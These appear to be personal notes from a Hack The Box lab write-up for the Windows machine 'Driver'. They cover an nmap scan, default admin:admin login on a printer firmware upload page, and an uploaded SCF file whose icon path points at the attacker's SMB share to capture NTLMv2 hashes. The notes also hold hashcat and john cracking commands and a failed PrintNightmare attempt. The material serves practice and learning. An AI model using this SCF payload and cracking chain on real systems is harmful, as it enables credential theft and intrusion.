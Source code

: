 Box info:
Windows
IP 10.10.11.106

**Enumeration:: **
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 18h51m14s, deviation: 0s, median: 18h51m13s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-07T01:30:02
|_  start_date: 2022-01-07T01:14:57

**dir::**
    + index.php, /images/, /fw_up.php(upload section)
        :requesting UN:PW "MFP firmware Update Center: enter PW for admin"
            + ::UN&PW admin:admin
            + download index.png
                + steghide:: doesnt work on .png
    + fw_up.php
        HTB DesignJet, Ecotank, Laserjet Pro, Mono
            + able to upload on any printer.
            + "GET /fw_up.php?msg=SUCCESS HTTP/1.1"
            + ***Where is upload location?***

**nikto::** 
    + php/7.3.25 
    + Server: Microsoft-IIS/10.0
    + default creds : admin:admin

smb is vuln to scf scripts:: see scf_file_attacks
+ msf6> use auxiliary/server/capture/smb
+ upload @test.scf script::
```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
+ capture hashes and run hashcat:: SEE:: ![weak_msf_ntlm2_hash](Screenshots/Driver_smb_scf_upload.png)
  + msf6 auxiliary(server/capture/smb) > [*] SMB Captured - 2022-01-06 07:29:15 -0500                               
    NTLMv2 Response Captured from 10.10.11.106:49450 - 10.10.11.106
    USER:tony DOMAIN:DRIVER OS: LM:
    LMHASH:Disabled
    LM_CLIENT_CHALLENGE:Disabled
    NTHASH:ad9b22a109fc9748b005176a30a7f24b
    NT_CLIENT_CHALLENGE:0101000000000000acc1da0d9703d801a0d96d845d3f38d300000000020000000000000000000000

**responder works much better than msfconsole::**  see::![proper_ntlmv2_hash](Screenshots/driver_scf_smb.png)

+ john --format=nt hash.txt
  + hashcat -m 5600 ntlmhashes.txt /usr/share/wordlists/rockyou.txt (seclist:: milw0rmdictionary.txt >> rockyou.txt )
    + creds: tony:liltony

+ rpcdump.py 10.10.11.106 -p 135 :: provides multiple vuln services in hacktricks                                                      1 ⨯

+TODO: impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x3a - ERROR_BAD_NET_RESP - The specified server cannot perform the requested operation.
Can't run printernightmare CVE-2021-1675

[](https://github.com/cube0x0/CVE-2021-1675)
[](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)
[scf_file_attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
[cracking_windows_hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)